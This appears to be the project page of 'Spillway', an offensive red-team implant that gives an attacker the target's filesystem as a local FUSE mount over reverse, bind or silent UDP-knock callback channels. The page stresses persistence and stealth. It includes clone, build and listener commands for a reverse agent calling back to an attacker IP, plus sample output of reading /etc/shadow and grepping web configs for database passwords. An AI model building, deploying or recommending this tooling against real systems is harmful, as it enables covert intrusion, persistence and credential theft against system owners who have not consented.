

Deploy a small agent on the target. Mount its entire filesystem locally via FUSE.
Browse with ls, cat, grep, find — any tool that reads files.
Over TLS 1.3 with mutual PSK authentication.
Reverse, bind, or dormant. The agent adapts to your engagement requirements. All modes use TLS 1.3 with mutual PSK authentication.
Agent calls back to your listener. You get a FUSE mount of the remote filesystem. The most common mode for red team engagements — agent initiates, firewall-friendly.
Agent listens on the target. You connect and mount the filesystem. Useful when you have direct network access to the target and need on-demand filesystem access.
Agent sits silent with no open ports. An authenticated UDP knock triggers a reverse callback. Zero network footprint until activated — ideal for persistence.
A real FUSE mountpoint backed by 17 filesystem operations. Everything encrypted, everything authenticated.
Custom binary wire protocol, TLS 1.3 transport, multiplexed request/response, and FUSE integration. All agent configuration baked at compile time via ldflags.
Custom binary encoding: [4B len][1B type][4B id][payload]. Length-prefixed strings. 17 filesystem operations plus control messages. 16 MiB frame cap.
TLS 1.3 with optional cert pinning. Mutual HMAC-SHA256 PSK auth. FramedConn with mutex-protected writes. HTTP CONNECT proxy tunneling.
Path-jailed filesystem ops with symlink resolution. 64-goroutine worker pool via ServerMux. Token bucket rate limiter. Platform-specific opsec hardening.
Listener accepts connections, creates sessions with TTL cache. ClientMux multiplexes FUSE calls. bazil.org/fuse presents the remote filesystem locally.
Clone, build, deploy. Go 1.22+ is the only requirement. The build script handles PSK generation, SNI selection, and cross-compilation automatically.
# Clone and build $ git clone https://github.com/Real-Fruit-Snacks/Spillway.git $ cd Spillway # Build agent for target $ ./build.sh reverse 10.10.14.5:443 [+] Built bin/spillway-agent-linux-amd64 # Build listener $ make listener # Start listener $ ./bin/spillway listen --port 443 --mount ./target [*] Listening on :443
# Agent connects, filesystem is mounted [+] Agent connected from 10.129.2.47:51234 [+] Mounted at ./target # Use standard tools $ ls ./target/etc/ crontab group hostname hosts passwd shadow ssh/ $ cat ./target/etc/shadow root:$6$rounds=65536$salt$hash...:19000:0:99999:7::: $ grep -r "password" ./target/var/www/ ./target/var/www/html/config.php:$db_password = "hunter2";
Understand what Spillway hides and what remains observable. Plan your engagement accordingly.
strace / eBPF — System call tracing reveals behavior